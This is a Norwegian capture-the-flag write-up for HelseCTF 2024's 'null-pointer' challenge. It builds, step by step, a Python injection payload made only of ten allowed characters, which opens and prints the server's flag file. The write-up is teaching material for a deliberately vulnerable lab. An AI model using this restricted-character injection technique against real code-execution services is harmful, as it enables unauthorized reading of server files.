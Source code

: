 *Utvikler Per Ointer trenger av og til å kjøre python-programmer på webserveren sin. Derfor har han laget en veldig enkel webtjeneste for å sende inn python-programmer og returnere output:*

*Eksempelkjøring av program: curl 'http://server/?program=print(repr(repr))'*

*For å hindre misbruk er kun 10 forskjellige tegn tillatt i python-programmet: pointer(*)*

*Dessverre viser det seg at dette ikke er godt nok. Hent ut flagget i fila 0 i current directory.*

*https://helsectf2024-2da207d37b091b1b4dff-null-pointer.chals.io*

=================================================================

I denne CTF oppgaven får vi tildelt en URL for oppgaven, som kunne brukes for å kjøre kode i URLen

**https://helsectf2024-2da207d37b091b1b4dff-null-pointer.chals.io/?program=**

Vi får vite at kun 10 forskjellige tegn er tillatt i /?program=. Disse tegnene er p,o,i,n,t,e,r,(,) og *

Jeg begynte med å undersøke hvilke python built-ins som kun inneholder godkjente tegn. https://docs.python.org/3/library/functions.html

De brukbare funksjonene var altså: open(), int(), repr(), print(), iter(), i tillegg til enkelte nøkkelord som not, og in.

Deretter så jeg på hva de ulike funkjsonene vil returnere dersom de blir kallet på. Jeg kjørte ```/?program=print(int())``` og fikk "0" skrevet ut. 

Dette er navnet på filen, og helt klart en nødvendig del av koden. For å gjøre det om til en string, kan funksjonen repr() brukes.

```/?program=print(repr(int()))```

Siden vi vet at filen "0" ligger i samme mappe, kan vi bruke funksjonen open() for å åpne filen

```/?program=print(open(repr(int())))```

Deretter kan vi bruke funksjonen iter() for å gjøre fil-objektet til en *iterable*

```/?program=print(iter(open(repr(int()))))```

Og til slutt har python en funksjonalitet hvor "*" kan brukes som prefiks på en iterable for å hente ut all innholdet

```/?program=print(*iter(open(repr(int()))))```

Dette hentet dermed ut flagget

```
helsectf{z3r0_p0inters_g1ven}
```
